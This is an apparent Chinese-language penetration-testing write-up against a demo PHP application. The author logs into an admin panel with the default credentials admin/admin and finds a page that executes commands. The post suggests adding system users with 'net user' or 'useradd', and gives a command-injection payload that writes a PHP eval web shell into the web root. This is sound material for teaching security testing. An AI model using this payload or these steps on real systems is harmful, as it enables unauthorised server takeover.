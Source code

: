 -----



### <span id = "a">管理员弱口令</span>

管理员后台：`www.xx.com/admin/login` <br>

简单测试 admin  &nbsp;&nbsp;admin 然后就进去了

-------


### <span id = "a1">后台命令执行</span>

发现了一个奇怪的页面 ，<br>

跟DVWA的很像有木有，可以执行命令<br>

![images](/images/2019-04-11/03.png) <br>

-----

如果在渗透测试中，我们可以尝试使用 `net user` 命令来添加用户，<br>

Linux下可以使用 `useradd` ，<br>

要是对方开了远程桌面，添加用户直接就拿服务器了，<br>

这里我就不测试了，我们来写**shell**看看 ，<br>

命令：
```php
127.0.0.1 && echo ^<?php eval($_POST[cmd]);?^> > D:/phpStudy/PHPTutorial/WWW/VAuditDemo/shell.php
```
